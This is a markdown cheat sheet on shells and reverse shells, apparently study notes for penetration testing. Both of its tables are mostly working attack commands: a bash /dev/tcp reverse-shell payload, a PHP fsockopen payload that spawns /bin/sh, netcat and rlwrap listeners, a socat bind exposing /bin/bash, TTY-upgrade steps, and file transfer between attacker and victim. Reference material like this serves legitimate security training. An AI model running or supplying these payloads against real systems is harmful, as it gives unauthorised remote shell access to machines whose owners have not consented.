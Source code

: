 # Shells
## Shells and Reverse Shells Cheat Sheet
| **Topic**                   | **Description**                                                                                     | **Examples/Commands**                                                              |
|-----------------------------|-----------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------|
| **Shells**                  | Interfaces to interact with an operating system (e.g., command line).                              | Bash, Zsh, CMD, PowerShell                                                        |
| **Reverse Shell**           | A shell initiated by the target machine to connect back to the attacker's machine.                 | `nc -lvnp 4444` (listener), `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1` (payload)       |
| **How Reverse Shells Work** | Attacker sets up a listener, victim executes the payload, creating a connection back to the attacker.| `rlwrap nc -lvnp 4444` + victim payload                                           |
| **Where to Find Them**      | Reverse shell scripts are available on repositories like [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). | Python, Bash, PHP, and PowerShell scripts.                                        |
| **Most Used Shells**        | Common shells for basic interaction and exploitation.                                               | `bash`, `sh`, `cmd.exe`, `powershell.exe`, `/bin/zsh`                             |
| **Simple Reverse Shells**   | Lightweight and easy-to-execute payloads for basic connectivity.                                   | `php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'`         |
| **Advanced Shells**         | Feature-rich shells offering better usability and tools.                                           | PowerShell, socat, Python reverse shells.                                         |
| **`rlwrap`**                | A tool to wrap readline functionality for command-line utilities that lack it (e.g., netcat).      | `rlwrap nc -lvnp 4444`                                                            |
| **Netcat (nc)**             | A networking tool commonly used for setting up listeners and reverse shells.                       | `nc -lvnp <PORT>` (listener)                                                      |
| **Socat**                   | An advanced alternative to Netcat, supports encrypted connections and more protocols.              | `socat tcp-listen:<PORT>,reuseaddr,fork exec:/bin/bash`                           |
| **Upgrading a Shell**       | Converting a simple shell into a fully interactive TTY shell.                                      | `python3 -c 'import pty; pty.spawn("/bin/bash")'`                                  |
| **File Transfer with Shells**| Using shells to upload/download files between attacker and victim.                                | `wget <URL>`, `curl -O <URL>`, `nc -lvp <PORT> > file`                            |

---

## Common Shell Commands and Tips
| **Command**                                | **Purpose**                                                                       |
|--------------------------------------------|-----------------------------------------------------------------------------------|
| `python3 -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade to a fully interactive shell.                                            |
| `export TERM=xterm`                        | Fix terminal display issues in a simple shell.                                    |
| `CTRL + Z`                                 | Background the current shell process.                                             |
| `stty raw -echo` and `fg`                  | Fix line formatting issues when bringing a shell to the foreground.               |
| `rlwrap nc -lvnp <PORT>`                   | Use `rlwrap` for history and arrow key navigation in Netcat shells.               |
| `socat tcp-listen:<PORT>,reuseaddr,fork exec:/bin/bash` | Start an advanced reverse shell listener.                                         |
| `php -r '...'`                             | Execute a PHP reverse shell payload.                                              |
